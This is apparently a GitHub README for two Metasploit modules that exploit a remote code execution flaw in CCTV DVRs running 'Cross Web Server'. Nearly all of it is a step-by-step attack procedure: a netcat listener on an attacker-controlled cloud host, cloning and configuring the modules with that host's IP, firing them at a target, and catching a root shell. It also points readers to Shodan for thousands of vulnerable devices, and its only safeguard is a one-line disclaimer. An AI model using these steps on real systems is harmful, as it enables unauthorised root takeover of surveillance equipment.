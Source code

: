 # CCTV-Remote-Code-Execution-Metasploit-Module


This code is adapted from the genius Rotem Kerner's python exploit into 2 metasploit modules to allow for easy pen testing of systems that utilise CCTV DVR's. If you go onto shodan.io and type in Cross Web Server, there are thousands of vulnerable web hosts, many of them presumably already exploited. This exploit should only be used for ethical, legal and authorised penetration tests.

http://www.kerneronsec.com/2016/02/remote-code-execution-in-cctv-dvrs-of.html

Instructions for Use:

Set up a cloud host or web facing IP.

**Step 1:**

On this cloud host type
```
nc -l 666
```
On another host, or the same host in another window (making sure metasploit is installed)

**Step 1:**
```
cd /usr/share/metasploit-framework/modules/exploits/linux/http
```
**Step 2:**
```
git clone https://github.com/freddiebarrsmith/CCTV-Remote-Code-Execution-Metasploit-Module.git
```
**Step 3:**

edit the line containing host = "192.168.0.1" inside CCTV_DVRwrite.rb to be the ip of your cloud host

**Step 4:**

type 

```
msfconsole
```
**Step 5:**

```
use exploit/linux/http/CCTV_DVRwrite 
set RHOST yourtargethost.com
set RPORT 81 
exploit
```
(then wait for it to execute, ignore errors for the most part) 

**Step 6:**

```
use exploit/linux/http/CCTV_DVRrun 
set RHOST yourtargethost.com 
set RPORT 81 
exploit
```
(then wait for it to execute, ignore errors for the most part)

**Step 7:**

go back to your cloud or web-facing ip netcat session and type in:
```
whoami
```

to get the answer

root

if the exploit executed succesfully
